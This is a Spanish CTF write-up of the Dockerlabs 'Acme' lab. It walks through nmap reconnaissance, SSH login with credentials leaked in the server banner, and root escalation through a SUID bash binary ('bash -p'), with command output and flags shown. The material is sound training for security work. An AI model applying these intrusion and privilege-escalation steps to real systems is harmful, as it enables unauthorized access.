

# Writeup Acme

**Difficulty:** Super easy<br>
**Dockerlabs link:** [https://dockerlabs.es/](https://dockerlabs.es/)

## 1. Preparación del entorno

Antes de comenzar con este laboratorio descargamos la máquina [acme](https://dockerlabs.es/maquinas/292/descargar) de la web de Dockerlabs.

Una vez descargada la levantamos con el script que viene en el zip junto a la máquina, y esperamos a que termine para obtener la IP.

```bash
sudo bash auto_deploy.sh acme.tar 
```
```{ .text .no-copy }
	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Y ya tenemos la máquina levantada y lista para proceder con la siguiente fase del ataque, el reconocimiento.

## 2. Reconocimiento

Para comenzar con esta fase primero comprobaremos si tenemos conectividad con la máquina víctima. Para ello ejecutamos ping, pero lanzando un único paquete:

```bash
ping -c 1 172.17.0.2
```

```{ .text .no-copy }
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=5.20 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 5.204/5.204/5.204/0.000 ms
```

Como podemos ver tenemos conectividad, así que procedemos con los escaneos de puertos mediante Nmap.

Primero ejecutamos un escaneo general, para descubrir los puertos abiertos de una manera rápida y silenciosa, guardándolo en formato grepeable en el fichero `allPorts`, para que en un futuro, si tenemos que volver a acceder a esta información no tengamos que realizar otro escaneo.

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

```{ .text .no-copy }
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-06 14:57 CEST
Initiating ARP Ping Scan at 14:57
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 14:57, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:57
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 14:57, 1.04s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000080s latency).
Scanned at 2026-10-06 14:57:30 CEST for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 62:83:3F:3E:FF:50 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.34 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

De esta primera fase de reconocimiento lo que podemos ver es que es una máquina Linux (por defecto tienen el TTL en 64), que tiene los puertos 22 y 80 abiertos.

Ahora procedemos a hacer un escaneo mas exhaustivo de los puertos descubiertos, usando scripts específicos. Este escaneo nos aportará mas información que puede sernos útil:

```bash
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```

```{ .text .no-copy }
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-06 15:13 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ae:8a:0a:ff:6e:ce:89:a3:31:d7:da:44:85:0d:f4:de (ECDSA)
|_  256 3f:e8:fa:07:33:e8:43:0a:22:1d:6d:15:a6:53:04:7e (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/migration_notes.txt
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: ACME Corporation - Portal en Mantenimiento
MAC Address: 62:83:3F:3E:FF:50 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

Así vemos que tenemos el puerto SSH abierto con la versión `OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)` y el puerto _80_ con un servidor web `Apache httpd 2.4.52`.


## 3. Explotación

### 3.1. Acceso Web

Dado que tenemos una web expuesta en el puerto _80_, accedemos mediante firefox para ver si tiene alguna vulnerabilidad o nos aporta información relevante.



Como podemos ver es un portal web corporativo que está en mantenimiento y que nos indica que para poder acceder a las consolas de gestión a través de SSH (que como ya habíamos visto antes está abierto). Además nos añaden unas pequeñas instrucciones de como conectarnos, y que el _Baner SSH_ nos dará mas instrucciones.

!!! info "Banner SSH"
    El Banner SSH es un texto que el servidor muestra antes de pedir usuario y contraseña, y se usa para avisos de seguridad, políticas de uso, identificación del sistema o advertencias legales.

### 3.2. Acceso SSH

Tal y como hemos visto antes accedemos por SSH con cualquier usuario, y obtenemos mediante el _Banner SSH_ unas credenciales para poder acceder al servidor:

```bash
ssh user@172.17.0.2
```

```{ .text .no-copy }
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Portal corporativo en proceso de migracion a infraestructura interna.
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
user@172.17.0.2's password: 
```

Así que probamos a acceder con las credenciales filtradas y ¡Estamos dentro!

```bash
ssh usuario@172.17.0.2
```

```{ .text .no-copy }
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Portal corporativo en proceso de migracion a infraestructura interna.
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
usuario@172.17.0.2's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.16.8+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.1$ 
```

Una vez dentro, hacemos el tratamiento de TTY correspondiente para poder interactuar con la terminal de una forma mas cómoda (en mi caso tengo una terminal Kitty):

```bash
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y obtenemos la Flag de usuario

```bash
cat user.txt
```

```{ .text .no-copy }
FLAG{nmap_recon_ssh_foothold_7a9f24e1}
```

## 4. Escalada de privilegios

Finalmente, al haber conseguido acceso a la máquina víctima como usuario normal, solo queda hacer la escalada de privilegios para acabar siendo usuario administrador (`root`).

Lo primero que probamos es si el usuario está en el grupo `sudoers`:

```bash
sudo -i
```

```{ .text .no-copy }
[sudo] password for usuario: 
usuario is not in the sudoers file.  This incident will be reported.
```

Como podemos ver, el usuario `usuario` no está en el grupo de `sudo`, así que lo siguiente que hacemos es buscar binarios con el bit `setuid` activo:

```bash
find / -perm -4000 -ls 2>/dev/null
```

```{ .text .no-copy }
  1764465     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  1764403     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  1764523     48 -rwsr-xr-x   1 root     root        47488 Mar  6  2026 /usr/bin/mount
  1764629     36 -rwsr-xr-x   1 root     root        35200 Mar  6  2026 /usr/bin/umount
  1764528     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  1764603     56 -rwsr-xr-x   1 root     root        55680 Mar  6  2026 /usr/bin/su
  1764397     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  1897224   1364 -rwsr-xr-x   1 root     root      1396520 Mar 14  2024 /usr/bin/bash
  1764539     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  1897225    124 -rwsr-xr-x   1 root     root       125688 Mar 23  2022 /usr/bin/dash
   428159    228 -rwsr-xr-x   1 root     root       232416 Mar  2  2026 /usr/bin/sudo
   428396    332 -rwsr-xr-x   1 root     root       338536 Jul  9 18:38 /usr/lib/openssh/ssh-keysign
```

Y vemos que tenemos el binario de bash con `setuid`, así que podemos ejecutar la bash con la opción `-p` para obtener una shell en modo privilegiado (que como tiene el bit `setuid` es con el usuario `root`)

```bash
/usr/bin/bash -p
whoami
```

```{ .text .no-copy }
root
```


```bash
ls
```

```{ .text .no-copy }
patch_wp_vulnerable.php  root.txt
```

```bash
cat root.txt
```

```{ .text .no-copy }
FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}
```

## 5. Lecciones aprendidas

!!! success "Lecciones aprendidas"
    1. Exposición de información en web
    2. Banner SSH mal configurado
    3. Escalada de privilegios con bit **setuid**
